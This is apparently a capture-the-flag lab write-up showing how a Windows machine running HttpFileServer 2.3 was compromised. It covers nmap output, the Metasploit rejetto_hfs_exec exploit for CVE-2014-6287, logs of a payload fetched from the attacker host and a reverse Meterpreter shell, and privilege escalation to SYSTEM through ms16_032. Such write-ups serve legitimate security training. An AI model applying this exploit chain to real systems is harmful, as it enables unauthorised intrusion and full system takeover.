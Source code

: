 ##nmap result

```
80/tcp open  http    syn-ack HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windo
```

By doing a google search of `HttpFileServer ver 2.3` we see that it has vulnerabilities `CVE-2014-6287`, by using this exploit (https://github.com/thepedroalves/HFS-2.3-RCE-Exploit)
it exploits the findMacroMarker function in parseLib.pas due to a poor regex. it wont handle a null byte and allowing us to inject code.

We can also use `msfconsole` and use the module `windows/http/rejetto_hfs_exec`

Then we need to supply the required information.

```
   Name       Current Setting  Required  Description                                                                                                                                          
   ----       ---------------  --------  -----------                                                                                                                                          
   HTTPDELAY  10               no        Seconds to wait before terminating web server                                                                                                        
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]                                                                                         
   RHOSTS     10.10.10.8       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html                                               
   RPORT      80               yes       The target port (TCP)                                                                                                                                
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.                
   SRVPORT    8080             yes       The local port to listen on.                                                                                                                         
   SSL        false            no        Negotiate SSL/TLS for outgoing connections                                                                                                           
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)                                                                                     
   TARGETURI  /?search=%00     yes       The path of the web application                                                                                                                      
   URIPATH                     no        The URI to use for this exploit (default is random)                                                                                                  
   VHOST                       no        HTTP server virtual host
```

Once we run the module, we should receive a shell

```
msf](Jobs:0 Agents:0) exploit(windows/http/rejetto_hfs_exec) >> run                                                                                                                          
                                                                                                                                                                                              
[*] Started reverse TCP handler on 10.10.14.83:9002                                                                                                                                           
[*] Using URL: http://10.10.14.83:8080/atU6IVvEh2jbGv                                                                                                                                         
[*] Server started.                                                                                                                                                                           
[*] Sending a malicious request to /                                                                                                                                                          
[*] Payload request received: /atU6IVvEh2jbGv                                                                                                                                                 
[*] Sending stage (175686 bytes) to 10.10.10.8                                                                                                                                                
[!] Tried to delete %TEMP%\EVNIQRumJY.vbs, unknown result                                                                                                                                     
[*] Meterpreter session 1 opened (10.10.14.83:9002 -> 10.10.10.8:49250) at 2023-11-13 13:21:38 -0600                                                                                          
[*] Server stopped.                                                                                                                                                                           
                                                                                                                                                                                              
(Meterpreter 1)(C:\Users\kostas\Desktop) >
```

Once a succesful session is created, we will then put the session in background, using `background` command, we then use another module called `post/multi/recon/local_exploit_suggested`
We will supply the previous `session` and run the module, this will check for possible exploit in the current session.

After running the exploit suggester, we get a long list but there are only 2 that is a potentially vulnerable.

```
#   Name                                                           Potentially Vulnerable?  Check Result                                                                                     
 -   ----                                                           -----------------------  ------------                                                                                     
 1   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.                                                             
 2   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.  
```

Testing the `bypassuac_eventvr`, does not work as our current user logged in is not an admin

```
[msf](Jobs:0 Agents:1) exploit(windows/local/bypassuac_eventvwr) >> run

[*] Started reverse TCP handler on 10.10.14.83:4444 
[-] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
[*] Exploit completed, but no session was created.
```

Testing the `ms16_032_secondary_logon_handle_privesc` works!
(This module exploits the lack of sanitization of standard handles in Windows secondary logon service, this affects version of Windows 7-10, 2k8-2k12 32 and 64 bit and this only works against those version of Windows with Powershell 2.0 and later with two or more CPU cores.)

Again by the supplying the session that was created the first time and running the module. We got a shell and as `nt authority\system`

```
Meterpreter 2)(C:\Users\kostas\Desktop) > shell
Process 2908 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```
